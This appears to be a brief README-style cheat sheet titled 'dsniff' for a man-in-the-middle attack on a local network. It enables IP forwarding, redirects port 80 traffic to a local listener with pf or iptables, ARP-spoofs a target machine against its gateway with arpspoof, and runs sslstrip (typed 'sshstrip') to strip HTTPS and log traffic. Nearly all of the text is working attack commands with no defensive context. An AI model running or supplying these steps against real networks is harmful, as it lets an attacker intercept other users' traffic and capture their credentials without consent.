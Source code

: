 # dsniff

## enable ports forward

on mac

	sudo sysctl -w net.inet.ip.forwarding=1
	sudo sysctl -w net.inet.ip.fw.enable=1
	sudo sysctl -w net.inet.fw.verbose=1
	sudo sysctl -w net.inet.ip.fw.verbose=1

on ubuntu

	vim /etc/sysctl.conf

change net.ipv4.ip_forward=0 to net.ipv4.ip_forward=1 

enable it

	sysctl -p

## port redirect

on mac <a href="https://developer.apple.com/library/mac/documentation/Darwin/Reference/ManPages/man5/pf.conf.5.html" >pf</a> 

	vim /etc/pf.conf

set configuration

	rdr on en0 proto { tcp, udp } from any to any port 80 -> 127.0.0.1 port 8000

enable it 

	pfctl -v -n -f /etc/pf.conf

on ubuntu <a href="https://help.ubuntu.com/community/IptablesHowTo">iptables</a>

enable iptables

	modprobe ip_tables

port redirect

	iptables -t nat -A PREROUTING -d *.*.*.* -p tcp --dport 80 -j DNAT --to-destination 127.0.0.1:8000

check

	iptables -t nat --list


delete

	iptables -t nat -D PREROUTING 1

## arp spoof

spoof machine with ip 192.168.0.49 on mac address of 192.168.0.1 by mac address of en0

	sudo arpspoof -i en0 -t 192.168.0.49 192.168.0.1

## ssl strip

	sshstrip -a -l 8000 -w sslstrip.log

